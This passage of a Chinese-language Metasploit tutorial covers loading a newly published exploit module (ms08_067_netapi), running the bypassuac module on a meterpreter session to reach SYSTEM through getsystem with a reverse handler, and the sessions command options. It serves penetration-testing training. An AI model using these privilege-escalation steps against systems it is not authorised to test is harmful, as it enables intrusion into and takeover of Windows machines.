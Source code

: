 ## 7、reload_all

当Github或者exploit等网站出现最新漏洞的MSF可利用脚本时，可以先自行导入利用；

msf模块目录可以使用`locate`找出来，将exp添加进去后要`reload_all`重新加载一下；

```
[Go0s]: ~ 
➜  locate windows/smb/ms08_067_netapi
/opt/metasploit-framework/embedded/framework/documentation/modules/exploit/windows/smb/ms08_067_netapi.md
/opt/metasploit-framework/embedded/framework/modules/exploits/windows/smb/ms08_067_netapi.rb
[Go0s]: ~/Download
➜  sudo mv ms08_067_netapi.rb /opt/metasploit-framework/embedded/framework/modules/exploits/windows/smb/ms08_067_netapi_cn.rb
在MSF中：
msf > reload_all 
```

## 8、bypassuac

获取meterpreter会话后进行提权前，习惯性的先执行一下bypass UAC；

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac
msf exploit(windows/local/bypassuac) > set session 1
session => 1
msf exploit(windows/local/bypassuac) > exploit
[*] Started reverse TCP handler on 192.168.43.100:4444
...
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 9、Sessions Command

可以获取任意shell后，来执行一些命令：

```
msf exploit(multi/handler) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
    -r        Reset the ring buffer for the session given with -i, or all
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List sessions in verbose mode
    -x        Show extended information in the session table

```